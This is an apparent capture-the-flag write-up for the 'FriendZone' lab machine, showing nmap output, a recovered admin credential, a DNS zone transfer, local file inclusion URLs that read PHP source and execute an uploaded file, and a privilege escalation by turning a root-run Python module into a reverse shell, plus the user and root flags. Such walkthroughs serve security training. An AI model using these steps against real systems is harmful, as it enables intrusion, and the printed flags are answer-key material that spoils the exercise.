 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/friendzone 10.10.10.123

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2023-05-12T15:41:38+03:00
|_clock-skew: mean: -1h00m24s, deviation: 1h43m54s, median: -25s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-12T12:41:38
|_  start_date: N/A
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

```

# SMB
Creds.txt

`creds for admin thing`
```
admin:WORKWORKHhallelujah@#
```

box has dns so try zone transfer.

```
dig axfr @10.10.10.123 friendzone.red
```

This gives an administrator1 vhost which has a login page.

LFI:
```
https://administrator1.friendzone.red/dashboard.php?image_id=none&pagename=php://filter/convert.base64-encode/resource=login
```

upload a shell in the general share and execute it.
```
/etc/general
```

test if it works.
```
<?php
echo("POC");
?>
```

yea it works!
```
https://administrator1.friendzone.red/dashboard.php?image_id=none&pagename=../../../../../etc/Development/test
```

php rev shell.

# Shell as www-data
user.txt:
```
3f50d0e84e68dd21cff1d2863138afc4
```

python script and we can overwrite the module.

pspy shows the script runs as root.

change os to be a rev shell

root.txt
```
652f11f03ae195ee0f8fa99e01a0eecb
```